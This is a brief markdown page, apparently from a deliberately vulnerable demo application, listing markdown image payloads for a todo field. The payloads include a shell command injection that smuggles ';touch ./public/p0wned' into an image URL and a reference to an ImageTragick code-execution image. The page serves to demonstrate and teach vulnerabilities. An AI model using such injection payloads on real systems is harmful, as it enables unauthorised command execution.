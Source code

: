 ### Example
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnmap-goof/feat/oreilly/exploits/vulnmap.png "Image todo item")
```

### Shell Command Injection
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnmap-goof/feat/oreilly/exploits/vulnmap.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability
```markdown
![alt text](https://raw.githubusercontent.com/khulnasoft-lab/vulnmap-goof/master/exploits/imagetragick_rce1.png "Image todo item")
```





